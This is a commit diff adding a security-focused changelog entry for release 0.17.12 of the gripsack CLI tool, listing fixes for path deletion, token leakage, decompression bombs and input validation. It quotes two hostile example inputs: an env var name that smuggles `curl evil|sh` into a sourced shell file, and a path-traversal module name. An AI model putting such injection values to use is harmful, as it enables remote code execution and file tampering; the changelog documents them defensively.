

Before and after one commit to gripsack-dev/gripsack-dev.github.io, a Markdown page: doc/changelog.md, the part around the change. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
changelog fallback: 0.17.12

```diff
--- a/doc/changelog.md
+++ b/doc/changelog.md
@@ -2,6 +2,79 @@
 
 User-visible changes per release. Design archaeology lives in
 `plan/`; this file is for "what's new for me".
+
+## [0.17.12] — 2026-09-01
+
+A hardening pass: a fuzzing campaign over every CLI flow (IR
+mutation, argv, env-repo eval, store/generation corruption) plus a
+full audit of all nine crates. New diagnostics E116 (module names)
+and E117 (env var names); no IR schema change.
+
+### Fixed
+
+- **`grip store verify --repair` could delete any directory on
+  disk.** The manifest's `store_path` was trusted as the delete
+  target — a tampered manifest naming, say, `~/project` turned
+  `--repair` into `rm -rf` of it. Repair now refuses anything
+  outside `$GRIPSACK_HOME/store`, and store-verify takes the apply
+  lifecycle lock so it cannot race an in-flight apply.
+- **Malformed lockfiles crashed `apply` (panic, exit 101).** A short
+  `tree256` pin sliced past its end at store-path construction. Pins
+  are validated (64-hex) when the lock is read, and a corrupt lock is
+  now a loud error on both `apply` and `update` — never a silent
+  reset to "no lock", which used to make `update` rewrite the whole
+  file and erase every other module's pin.
+- **`store verify` panicked on short manifest hashes** (exit 101);
+  tampered manifests now report cleanly, and unreadable generation
+  manifests surface as warnings instead of reading as "ok".
+- **merge mode into a non-text destination destroyed the file.** A
+  binary (or unreadable) dest was read as empty and the managed
+  block REPLACED the entire foreign file — 1 KiB of binary became
+  128 bytes of markers, silently. Deploy refuses loudly now, and
+  rollback leaves such files alone.
+- **A failed apply after `--take-over` lost your original file.**
+  The run-level rollback removed the deployed symlink but never
+  restored the captured prior — the original bytes existed only in
+  the prior blob store. Priors are restored first on rollback.
+- **Env var names reached `profile.sh` unquoted.** A name like
+  `X=; curl evil|sh #` landed raw in a file your shell sources
+  (values were quoted; names could not be). E117 rejects non-shell-
+  identifier names at eval, and the profile renderer skips them in
+  hand-edited manifests.
+- **Module names flowed into store path segments unvalidated.** A
+  name like `x/../../pwned` walked out of the store directory. E116
+  restricts names to letters, digits, `_`, `-`, `.` (no separators,
+  no `:`, no leading `.`).
+- **The GitHub enterprise token leaked to third-party hosts.**
+  `GH_ENTERPRISE_TOKEN` was attached to every request that was not
+  github.com — any module tarball URL received the credential. It
+  now binds only to the host `GH_HOST`/`GITHUB_HOST` names (the gh
+  CLI convention) and attaches nowhere when unset.
+- **Downloads that hit the 512 MiB cap were silently truncated and
+  extracted.** Hitting the cap is an error now, and xz/gz
+  decompression is capped so a compressed bomb cannot balloon in
+  RAM before the traversal scan runs.
+- **Stuck linters/plugins hung grip forever.** The NDJSON exchanges
+  enforced deadlines only between reads: a child that went silent
+  (or answered but never exited) blocked forever, a >64 KiB request
+  could deadlock both sides, and an endless line could OOM. Deadlines
+  are enforced end-to-end (kill + reap), lines cap at 1 MiB, stdin
+  is written on a writer thread, and unknown linter severities no
+  longer coerce to Error.
+- **`steps: [...]` modules bypassed the destination rules.** E102
+  (absolute/`~/` destinations) and E111 (duplicate destination)
+  walked only the declarative install/config fields; entries inside
+  step actions got neither check.
+- **Lint engine correctness.** W10 version coverage compares
+  numerically instead of by string prefix ("0.14" no longer covers
+  "0.140"); unknown `[[array-of-tables]]` sections now get A02;
+  JSON/YAML `null` reports "got null" instead of "got string"; `1`
+  matches a `1.0` choice; indented multi-char keys report real
+  columns; TOML error spans stay accurate past multibyte characters.
+- `grip update` colored its output even when piped or `NO_COLOR`
+  was set; apply writes lockfile pins as soon as fetches land (the
+  "already satisfied" early-return used to skip the write); apply
+  reads the previous manifest once instead of three times.
 
 ## [0.17.11] — 2026-08-31
 
```
